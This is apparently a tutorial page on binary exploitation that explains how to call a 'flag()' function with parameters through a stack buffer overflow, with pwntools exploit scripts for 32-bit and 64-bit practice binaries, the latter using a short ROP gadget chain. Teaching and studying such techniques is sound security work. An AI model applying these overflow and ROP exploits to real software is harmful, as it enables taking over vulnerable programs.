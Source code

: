 ```yaml
---
description: Utilising Calling Conventions
---
```


# Exploiting Calling Conventions

{% file src="../../.gitbook/assets/exploiting\_with\_params.zip" caption="ret2win with Parameters" %}

### 32-bit

The program expects the stack to be laid out like this before executing the function:

```text
return pointer    param1    param2    param3
```

So why don't we provide it like that? As well as the function, we also pass the return address and the parameters.

```text
<flag address>    <ret. pointer>    <param1>    <param2>
```

Everything after the address of `flag()` will be part of the stack frame for the next function as it is **expected** to be there - just instead of using `push` instructions we just overwrote them manually.

```python
from pwn import *

p = process('./vuln-32')

payload = b'A' * 52            # Padding up to EIP
payload += p32(0x080491c7)     # Address of flag()
payload += p32(0x0)            # Return address - don't care if crashes when done
payload += p32(0xdeadc0de)     # First parameter
payload += p32(0xc0ded00d)     # Second parameter

log.info(p.clean())
p.sendline(payload)
log.info(p.clean())
```

### 64-bit

Same logic, except we have to utilise the gadgets we talked about previously to fill the required registers \(in this case `rdi` and `rsi` as we have two parameters\).

We have to fill the registers _before_ the function is called

```python
from pwn import *

p = process('./vuln-64')

POP_RDI, POP_RSI_R15 = 0x4011fb, 0x4011f9


payload = b'A' * 56            # Padding
payload += p64(POP_RDI)        # pop rdi; ret
payload += p64(0xdeadc0de)     # value into rdi -> first param
payload += p64(POP_RSI_R15)    # pop rsi; pop r15; ret
payload += p64(0xc0ded00d)     # value into rsi -> first param
payload += p64(0x0)            # value into r15 -> not important
payload += p64(0x40116f)       # Address of flag()

log.info(p.clean())
p.sendline(payload)
log.info(p.clean())
```

